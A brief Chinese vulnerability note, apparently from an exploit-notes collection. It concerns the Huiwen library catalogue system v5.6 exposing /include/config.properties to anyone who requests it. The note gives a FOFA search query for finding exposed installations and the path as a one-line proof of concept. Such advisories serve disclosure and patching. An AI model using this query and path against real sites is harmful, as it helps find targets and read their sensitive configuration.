 # 汇文 图书馆书目检索系统 config.properties 信息泄漏漏洞

## 漏洞描述

汇文 图书馆书目检索系统 /include/config.properties 文件中包含敏感信息，攻击者可以直接访问获取信息

## 漏洞影响

```
汇文v5.6
```

## FOFA

```
app="汇文软件-书目检索系统"
```

## 漏洞复现

主页面

![image-20220525144642895](./images/202205251446991.png)

验证POC

```
/include/config.properties
```

![image-20220525144530183](./images/202205251445229.png)